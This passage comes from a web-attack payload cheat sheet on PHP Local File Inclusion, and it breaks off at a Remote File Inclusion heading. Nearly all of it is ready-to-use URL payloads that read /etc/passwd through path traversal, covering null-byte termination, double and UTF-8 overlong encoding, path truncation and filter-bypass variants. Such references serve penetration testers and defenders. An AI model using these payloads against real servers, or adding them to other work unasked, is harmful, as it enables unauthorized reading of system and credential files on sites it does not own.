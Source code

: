 ## **Payloads** ##

### **Basic LFI** ###

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```
http://example.com/index.php?page=../../../etc/passwd
```

### **Null byte** ###

⚠️ In versions of PHP below 5.3.4 we can terminate with null byte.

```
http://example.com/index.php?page=../../../etc/passwd%00
```

### **Double encoding** ###

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### **UTF-8 encoding** ###

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### **Path and dot truncation** ###

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### **Filter bypass tricks** ###

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## **Basic RFI** ##
